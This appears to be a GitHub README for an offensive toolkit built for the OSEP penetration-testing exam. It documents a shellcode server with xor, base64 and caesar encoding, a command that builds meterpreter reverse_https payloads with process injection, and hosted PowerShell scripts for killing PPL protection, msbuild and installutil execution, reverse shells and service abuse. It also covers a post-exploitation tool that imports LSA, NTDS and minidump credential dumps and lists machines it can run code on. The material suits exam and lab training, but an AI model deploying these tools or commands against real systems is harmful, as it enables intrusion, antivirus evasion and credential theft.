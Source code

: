 # osep-tools

## 3rd Party Library Version Info

* SharpHound [1.0.3](https://github.com/BloodHoundAD/SharpHound/commit/97f5d42bbb9c049e5f2ae14d6f9306358f92d8cf)
* CrackMapExec [5.2.1](https://github.com/byt3bl33d3r/CrackMapExec/commit/e9bcd09bd2c862200a40ecdc431fcf56f0ae5b67)

## msf api server

Create various format of shellcode with non-trivial transformer (xor, base64, caesar).

```
python3 shellcode_server.py -H localhost
```

![](images/screenshot-msfapiserv.png)

## AttackSuite

### Setup

```
pip3 install -r requirements.txt
```

Core Function, must accompany with `shellcode_server.py` now. Can integrate with other C2 framework such as Covenant.

```bash
python3 attackSuite.py -a win -b 64 -i 192.168.49.134 -p 80 -P 443 --payload meterpreter/reverse_https --chain xor-adwocdmwa-cae-11 --csc mcs -r 8888
```

```
usage: attackSuite.py [-h] [-a {win,nix}] [-b {32,64}] [-n {2,4}] -i IP -p PORT -P RPORT [-gP GPORT] [--payload PAYLOAD] [--inject INJECT] [--chome CHOME] [--mhome MHOME]
                      [--ps1 PS1] [--chain CHAIN] [--stageless] [--csc CSC] [--gcc GCC]

Python Shellcode Runner

optional arguments:
  -h, --help            show this help message and exit
  -a {win,nix}, --os {win,nix}
                        Choose OS
  -b {32,64}, --bits {32,64}
                        Choose process bits
  -n {2,4}, --netclr {2,4}
                        Choose .NET CLR version
  -i IP, --ip IP        HTTP Listener IP
  -p PORT, --port PORT  HTTP Listener Port
  -P RPORT, --rport RPORT
                        msf Listener Port
  --payload PAYLOAD     meterpreter payload used
  --inject INJECT       target process to inject
  --ps1 PS1             path to custom powershell script
  --chain CHAIN         payload transform expression, separated by "-" Ex. xor-ii1e12e1 => xor($buf, 'ii1e12e1') xor-eegg-cae-10 => cae(xor($buf, 'eegg'), 10)
  --stageless           create stageless payload (no interact with this http server)
```

![](images/screenshot-attackSuite.png)

### pre-defined scripts with fixed name

`http://<IP>:<PORT>/<name>`

| name | Function |
| ------ | ------ |
| /pk.ps1    | Invoke-KillPPL            |
| /flm.ps1   | Invoke-FLM                |
| /go.ps1    | met(x64) installutil      |
| /gm.ps1    | met(x64) msbuild          |
| /rev.ps1   | reverse flm shell         |
| /svc.ps1   | met(?) in service binary  |
| /svc_.ps1  | Invoke-ServicePwn         |

### arsenal integration

```
alias a="arsenal"
cheatsheet output: $HOME/.cheats/osep_hunter.md    ( Only exist when attackSuite is runing )
```

![](images/screenshot-attackSuite-arsenal.png)
                                        
## centre credential/host/record manager
                                        
Post-Exploitation Enumeration Tool desi gned for OSEP EXAM
                                        
```
usage: centre.py [-h] [--cme] [--rdp] [--import-lsa _LSA] [--import-ntds _NTDS] [--import-mini _MINIDUMP] [--import-nmap _NMAPXML] [-t ITARGET_IP]
                 [-T ITARGET_NAME] [--reset] [--debug] [--noproxy]

optional arguments:
  -h, --help            show this help message and exit
  --cme
  --rdp
  --import-lsa _LSA
  --import-ntds _NTDS
  --import-mini _MINIDUMP
  --import-nmap _NMAPXML
  -t ITARGET_IP, --itarget-ip ITARGET_IP
                        must be IPv4 format
  -T ITARGET_NAME, --itarget-name ITARGET_NAME
  --reset
  --debug
  --noproxy
```

execution result
```
+----+---------------+--------+----------------------------------+------------+
|    | User          | Pass   | NTLM                             | Domain     |
|----+---------------+--------+----------------------------------+------------|
|  0 | sqlsvc        |        | ******************************** | ******.*** |
+----+---------------+--------+----------------------------------+------------+
+----+----------------+----------+--------------------+
|    | IP             | HOST     | Ports              |
|----+----------------+----------+--------------------|
|  0 | 172.16.***.*** | dc04     | 5985 3389 445      |
|  1 | 172.16.***.*** | sql05    | 1433 445 5985 3389 |
|  2 | 172.16.***.*** | sql07    | 1433 445 5985 3389 |
|  3 | 172.16.***.*** | client09 | 3389 445           |
+----+----------------+----------+--------------------+

==== RCE machines ====
+----+----------------+---------------+--------+----------------------------------+------------+------------+----------+
|    | IP             | User          | Pass   | NTLM                             | Domain     | Protocol   |   Status |
|----+----------------+---------------+--------+----------------------------------+------------+------------+----------|
|  0 | 172.16.***.*** | sqlsvc        |        | ******************************** | ******.*** | cme-mssql  |        1 |
+----+----------------+---------------+--------+----------------------------------+------------+------------+----------+
======================
```

